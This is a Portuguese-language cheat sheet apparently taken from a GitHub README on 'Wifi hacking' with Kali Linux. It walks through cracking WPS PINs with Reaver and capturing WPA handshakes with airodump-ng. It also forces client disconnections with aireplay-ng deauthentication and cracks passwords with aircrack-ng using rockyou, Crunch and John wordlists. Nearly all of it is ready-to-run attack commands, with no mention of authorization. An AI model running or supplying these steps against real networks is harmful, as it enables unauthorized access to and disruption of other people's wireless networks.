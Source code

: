 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00 -vv` - Inicia o ataque Reaver.
* `reaver -i wlan0mon -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Inicia o ataque Reaver com parâmetros de intervalos opcionais.

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a interface wifi.
* `airmon-ng start wlan0` - Coloca a interface wlan0 em modo de monitoramento.
* `airodump-ng wlan0mon` - Ativa a descoberta de redes disponiveis na interface wlan0mon.
* `wash -i wlan0mon` - Ativa a descoberta WPS de redes disponiveis na interface wlan0mon.
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura de pacotes do equipamento de rede alvo.
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Executado em terminal paralelo, força a desconexão dos dispositivos da rede alvo.
* Havendo sucesso na captura do pacote de autenticação, no terminal que executa o monitoramento aparecerá a seguinte mensagem: 'WPA handshake'.
* Em posse do pacote capturado com a senha criptografada, devemos quebrar a senha utilizando Wordlists.
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux.
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo rockyou.txt.gz deletando o arquivo zipado.
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist especificado.
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou.txt gerando um novo arquivo que contenha apenas senhas no padrão WPA/WPA2 (8-63 caracteres).

#### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch.
*  lowUP123@%# (Minúsculas,maiúsculas,números e símbolos) - Ordem de Charset no Crunch.
* Parâmetros do Crunch:
    * -b : Tamanho máximo da lista de palavras (requer -o START).
    * -c : Número de linhas para escrever na lista de palavras (requer -o START).
    * -d : Limita o número de caracteres duplicados.
    * -e : Interrompe a geração de palavras em uma determinado string.
    * -f : Especifica uma lista de conjuntos de caracteres do arquivo charset.lst.
    * -i : Inverte a ordem dos caracteres na lista de palavras.
    * -l : Permite a interpretação literal de @,% ^ ao usar -t.
    * -o : O arquivo de lista de saída.
    * -p : Imprime permutações sem repetir caracteres (não pode ser usado com -s).
    * -q : Como a opção -p, exceto a leitura das sequências de um arquivo especificado.
    * -r : Retoma uma sessão anterior (não pode ser usada com -s).
    * -s : Especifique uma string para iniciar a lista de palavras.
    * -t : Define um padrão específico de @,% ^.
    * -z : Comprime o arquivo da lista de saída, acompanhado de -o.
 * Refêrencia do Crunch:
    * @ : Representa letras minúsculas.
    * , : Representa letras maiúsculas.
    * % : Representa números.
    * ^ : Representa caracteres especiais.
 * Lista Charset: /usr/share/crunch/charset.lst:
    * Conjunto de caracteres disponíveis no arquivo charset.lst:
      * lalpha : Letras minúsculas.
      * ualpha : Letras maiúsculas.
      * lalpha-numeric : Letras minúsculas e números.
      * ualpha-numeric : Letras maiúsculas e números.
      * lalpha-numeric-all-space : Letras minúsculas, números e caracteres especiais.
      * ualpha-numeric-all-space : Letras maiúsculas, números e caracteres especiais.
      * mixalpha : Letras minúsculas e maiúsculas.
      * mixalpha-numeric-all-space : Letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 

* `crunch 4 6 1234567890 -o MinhaWordlist01.txt` - Exemplo: Gera lista numérica com palavras de 4 a 6 caracteres e armazena resultado. 
* `crunch 9 9 1234567890 -t palavra@@@@ -o MinhaWordlist02.txt` - Exemplo: Gera lista com parte da palavra fixa de 9 caracteres e variação numérica, armazenando resultado.
* `crunch 4 8 -f charset.lst mixalpha -o MinhaWordlist03.txt` - Exemplo: Gera lista com palavras de 4 a 8 caracteres utilizando charset de letras minusculas e maiusculas e armazena resultado.
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o MinhaWordlist04.txt` - Exemplo: Gera lista com palavra de tamanho 8 combinando variáveis charset e palavras fixas armazenando resultado. 
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o MinhaWordlist05.txt` - Exemplo: Gera lista com palavra de tamanho 4 utilizando todos os caracteres possíveis do charset e armazena resultado.
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavra de tamanho 8 que contenha letras letras e números especificados passando diretamente para o software aircrack; não armazena resultado. 
* `crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng -b 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Gera lista com palavras de tamanho 8 apenas com o padrão letras minúsculas do alfabeto passando diretamente para o software aircrack; Diferencial utiliza o software john para guardar o progresso de execução.
* `crunch 8 8 | john --restore=session1 | aircrack-ng -b 00:00:00:00:00:00 -w- ArqCap-01.cap` - Exemplo: Restaura execução da geração de lista passada diretamente para o software aircrack.
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/  
https://nsworld.com.br/crunch-gerador-de-wordlist/  
https://nsworld.com.br/aircrack-ng-pacote-de-ferramentas-para-monitorizar-e-analisar-redes-sem-fio/  
https://nsworld.com.br/cracking-wpa-com-aircrack-ng/  
https://www.thinklinux.com.br/?p=130  
https://cibersegurancawernik.blogspot.com/2018/01/capturando-pacotes-wifi-aircrack-e.html  



